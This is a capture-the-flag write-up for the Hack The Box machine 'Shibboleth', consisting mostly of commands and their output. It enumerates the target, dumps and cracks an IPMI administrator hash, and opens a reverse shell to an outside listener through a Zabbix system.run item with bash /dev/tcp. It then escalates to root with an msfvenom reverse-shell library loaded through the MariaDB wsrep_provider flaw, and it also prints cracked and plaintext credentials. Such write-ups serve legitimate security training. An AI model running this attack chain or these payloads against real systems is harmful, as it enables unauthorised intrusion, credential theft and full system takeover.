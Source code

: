 > Author: **[knightmare][author-profile]**

## Discovery

### Port Scanning

TCP:

```bash
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.41
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: FlexStart Bootstrap Template - Index
```

UDP:

```bash
PORT    STATE SERVICE
623/udp open  asf-rmcp
```

### Enumeration

Virtual hosts:

```bash
ffuf -u http://10.10.11.124/ -H 'Host: FUZZ.shibboleth.htb' -w /usr/share/wordlists/discovery/subdomains-top1million-20000.txt -mc 200
# monitor                 [Status: 200, Size: 3686, Words: 192, Lines: 30, Duration: 64ms]
# monitoring              [Status: 200, Size: 3686, Words: 192, Lines: 30, Duration: 68ms]
# zabbix                  [Status: 200, Size: 3686, Words: 192, Lines: 30, Duration: 78ms]
```

## Admin on the Web Console

```bash
msfconsole
# use auxiliary/scanner/ipmi/ipmi_cipher_zero
# set rhosts monitor.shibboleth.htb
# run
# [*] Sending IPMI requests to 10.10.11.124->10.10.11.124 (1 hosts)
# [+] 10.10.11.124:623 - IPMI - VULNERABLE: Accepted a session open request for cipher zero
# [*] Scanned 1 of 1 hosts (100% complete)
# [*] Auxiliary module execution completed
# search ipmi
# use auxiliary/scanner/ipmi/ipmi_dumphashes
# set rhosts monitor.shibboleth.htb
# run
# [+] 10.10.11.124:623 - IPMI - Hash found: Administrator:4996629102020000803e4869896a2d90db7a2bed305d9e3a8cea0a0dcbaec65e5ae344357c775d50a123456789abcdefa123456789abcdef140d41646d696e6973747261746f72:28a9b3482c123d3a6e4bdb50bc802433a31ae238
```

The IPMI service is vulnerable to authentication bypass and the admin hash
can be extracted. Then cracked:

```bash
hashcat --help | grep -ia ipmi
   # 7300 | IPMI2 RAKP HMAC-SHA1
hashcat -a 0 -m 7300 credentials/admin.hash /usr/share/wordlists/passwords/rockyou.txt
```

> Administrator ilovepumkinpie1

It looks like a sysadmin interface: it has system logs, network monitoring,
network topology, application monitoring, etc.

## System "zabbix"

And it can run system commands! Like a native reverse shell, through the
creation of "items". There's a "system.run" key

```
system.run[/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.10/9999 0>&1',nowait]
```

Then it can be run with "Test => Get value and test".

```bash
id
# uid=110(zabbix) gid=118(zabbix) groups=118(zabbix)
```

## Pivoting to System "ipmi-svc"

The usual:

```bash
which python3
# /usr/bin/python3
cat /etc/passwd | grep -avi nologin
# root:x:0:0:root:/root:/bin/bash
# sync:x:4:65534:sync:/bin:/bin/sync
# tss:x:106:112:TPM software stack,,,:/var/lib/tpm:/bin/false
# pollinate:x:109:1::/var/cache/pollinate:/bin/false
# ipmi-svc:x:1000:1000:ipmi-svc,,,:/home/ipmi-svc:/bin/bash
# Debian-snmp:x:111:119::/var/lib/snmp:/bin/false
# mysql:x:112:120:MySQL Server,,,:/nonexistent:/bin/false
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
stty rows 56 columns 135
alias ls='ls -lah --color --group-directories-first'
```

## System Root

The MySQL service is running as root:

```bash
ps aux | grep -ia mysql
# root        1224  0.0  0.0   2608  1820 ?        S    12:26   0:00 /bin/sh /usr/bin/mysqld_safe
```

Most likely the DB password is somewhere in the site config:

```bash
grep -v "^[#;]" /etc/zabbix/zabbix_server.conf | grep -v "^$"
# LogFile=/var/log/zabbix/zabbix_server.log
# LogFileSize=0
# PidFile=/run/zabbix/zabbix_server.pid
# SocketDir=/run/zabbix
# DBName=zabbix
# DBUser=zabbix
# DBPassword=bloooarskybluh
# SNMPTrapperFile=/var/log/snmptrap/snmptrap.log
# Timeout=4
# AlertScriptsPath=/usr/lib/zabbix/alertscripts
# ExternalScripts=/usr/lib/zabbix/externalscripts
# FpingLocation=/usr/bin/fping
# Fping6Location=/usr/bin/fping6
# LogSlowQueries=3000
# StatsAllowedIP=127.0.0.1
mysql -D'zabbix' -u'zabbix' -p'bloooarskybluh' -e'select version();'
# +----------------------------------+
# | version()                        |
# +----------------------------------+
# | 10.3.25-MariaDB-0ubuntu0.20.04.1 |
# +----------------------------------+
```

The DB contains other hashes, most likely useless. On the other hand this
version of MariaDB is [vulnerable][mariadb-cve]. It will trigger the
following payload:

```bash
msfvenom -a x64 -p linux/x64/shell_reverse_tcp LHOST=10.10.14.10 LPORT=4444 -f elf-so -o cve.so
```

When setting a global variable to its path:

```bash
mysql -h 127.0.0.1 -D zabbix -u zabbix -p'bloooarskybluh' \
    -e'SET GLOBAL wsrep_provider="/tmp/cve.so";'
```

It opens a root shell on the listening Netcat.

[author-profile]: https://app.hackthebox.com/users/8930

[ipmi-auth-bypass]: https://book.hacktricks.xyz/pentesting/623-udp-ipmi#vulnerability-ipmi-authentication-bypass-via-cipher-0
[mariadb-cve]: https://github.com/Al1ex/CVE-2021-27928
